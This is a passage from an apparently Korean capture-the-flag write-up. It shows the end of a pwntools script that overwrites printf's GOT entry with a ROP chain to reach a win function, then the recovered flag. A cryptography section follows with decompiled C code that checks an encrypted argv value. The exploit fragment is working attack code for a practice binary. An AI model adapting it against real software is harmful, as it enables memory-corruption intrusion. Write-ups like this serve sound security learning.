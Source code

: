 ```python
rop2 = ROP(elf)
rop2.read(0,elf.got['printf'],4)
rop2.call(win)

log.info('Stage2')

p.sendline(payload + str(rop2))
sleep(0.1)
p.sendline(p32(sys_got))
sleep(0.1)

p.interactive()
```

![](https://user-images.githubusercontent.com/32904385/63650909-bd7cd580-c78a-11e9-9057-45417d0a89c0.png)

**FLAG : `FLAG{This_is_got_overwrite}`**

<br />

# Cryptography

## 3AsYCrACK_M3

argv로 입력된 값이 encrypt되어 Cdm+V2^U`7 랑 같으면 플래그라고 한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // [rsp+10h] [rbp-20h]
  signed int v5; // [rsp+1Ch] [rbp-14h]
  char *s; // [rsp+20h] [rbp-10h]
  int i; // [rsp+2Ch] [rbp-4h]

  if ( argc != 2 )
  {
    puts("error");
    exit(0);
  }
  s = argv[1];
  v5 = strlen(argv[1]);
  if ( v5 > 20 )
  {
    puts("error");
    exit(0);
  }
  v4 = malloc(1uLL);
  *v4 = *s;
  for ( i = 0; i < v5 - 1; ++i )
    v4[i + 1] = s[i] + 2 * (s[i + 1] - s[i]) + 3;
  encrypt(s);
  printf("answer is %s\n", v4, argv);
  return 0;
}
```
